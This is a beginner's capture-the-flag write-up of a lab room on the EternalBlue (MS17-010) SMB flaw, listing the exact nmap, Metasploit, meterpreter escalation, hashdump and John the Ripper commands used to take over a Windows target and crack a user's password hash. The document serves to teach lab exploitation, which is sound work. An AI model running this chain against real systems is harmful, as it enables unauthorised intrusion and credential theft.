 # Eternal Blue
> Author: daniboomberger
> Date: 12.10.2020

## What is Eternal Blue?
> Eternal Blue is Vulnerability could lead to allowing the attacker to do a remote code execution. The attacker would send a sepcially crafted message to SMBv1 Server. SMB stands for Server Message Block, which is a communication protocol for providing shared access to files, printer and serial ports between nodes on a network. The Vulnerability was foud by the NSA (National Security Agency).
(Information Resources: Microsoft: https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010
                        Wikipedia: https://en.wikipedia.org/wiki/Server_Message_Block)

## Recon

> **Scan the machine.**
> - `nmap -sC -sV <IP_ADDRESS>`
> - `-sC` does mean the same as `--script=default`
> - `-sV` Probe open ports to determine service/version info
> - you will get a output file (nmap.txt), which can be read
>
> **How many ports are open with a port number under 1000?**
> - `nmap -p0-1000 <IP_ADDRESS>`
> - `p` specify port (or port range)
> - The output of nmap was three ports are open under this range
>
> **What is this machine vulnerable to?**
> - `nmap --script vuln <IP_ADDRESS>`
> - It scans the host for vulnerabilities
> - It will show the information of a vulnerability called `ms17-010` the so called eternal blue exploit
> - INFO: I ran these specific nmap commands to have some sort of training (nmap training)...

## Gain Access

> **Start Metasploit**
> - `msfconsole -q`
> - `-q` this prevents the banner to appear
> - Will open metasploit
>
> **Find the exploitation code we will run against the machine**
> - `search ms17-010`
> - This will let you search the exploit in metasploit (search term we got from nmap vuln scan)
> - There will appear some exploits after the search term the correct one will be
> - `exploit/windows/smb/ms17_010_eternalblue` this is the one we are looking for
> - `use exploit/windows/smb/ms17_010_eternalblue`
> - That is to use the exploit that we've searched
> - You could also read the id in the search and run `use <ID>`
>
> **Show options and set the one required value. What is the name of this value?**
> - `show options`
> - It will show a list of options and if they are required and also show there value.
> - You have to search the option that is required, but has no value set `RHOSTS`
> - `set RHOSTS <IP_ADDRESS>`
> - This will set `RHOSTS` to the IP Address of our target
> 
> **Run the exploit**
> - `run` or `exploit`
> - One of these two commands will run the exploit (ms17-010)
> - After it's successfully finished there will appear a DOS Shell
> - If everything is the same you have to put the shell in the background `CTRL+Z`

## Escalate

> **Research online how to convert a shell to meterpreter shell in metasploit. Post Module Name?**
> - I searched with the term `shell to meterpreter` (I know big brain me)
> - So I found this path in the World Wide Web `post/multi/manage/shell_to_meterpreter`
> - And No I don't go back and provide the link, because I wrote this writeup after I finished the Room
> 
> **Select this (use MODULE_PATH). Show options, what option are we required to change?**
> - `show options`
> - This will provide us a options list with all options
> - Search the required field that has no Value in it `SESSION`
>
> **Set the required option, you may need to list all of the sessions to find your target here.**
> - `sessions`
> - That command shows us a list of all current sessions
> - `set SESSION <ID>`
> - Set the <ID> to ID of the Windows shell (ID will probably be 1)
> 
> **Run! If this doesn't work, try completing the exploit from the previous task once more.**
> - `run` or `exploit`
> - Will run this `post/multi/manage/shell_to_meterpreter`
> - `getsystem`
> - If you run this command your return should be `NT AUTHORITY\SYSTEM`
> - `shell`
> - This command would open the DOS shell and in this shell you could run the command `whoami` to check
> 
> **List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column)**
>
> **Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time**

## Cracking

> **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**
> - `hashdump`
> - Command will provide you with users and there password hashes
> - Three Users will appear (Administrator, Guest and Jon) `Jon` it is
> 
> **Copy this password hash to a file and research how to crack it. What is the cracked password?**
> - `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt password.txt`
> - Windows stores hashes in NTLM so thats why we use `--format=NT`
> - The `--wordlist=/usr/share/wordlists/rockyou.txt` is to provide rockyou.txt (your path could be different)
> - And password.txt is a created file by with the hashed password inside

## Find flags!
> **Search the flags in the Windows System**
> - `search -f flag*.txt`
> - A magic command from meterpreter that will provide you with all three flags and there path

## Conclusion
> I really liked the box and it was fun to work around with metasploit. I'm actually a beginner and did not start long ago and it was totally good explained. As a tip, always try to understand what you are doing and not only copy paste the commands.
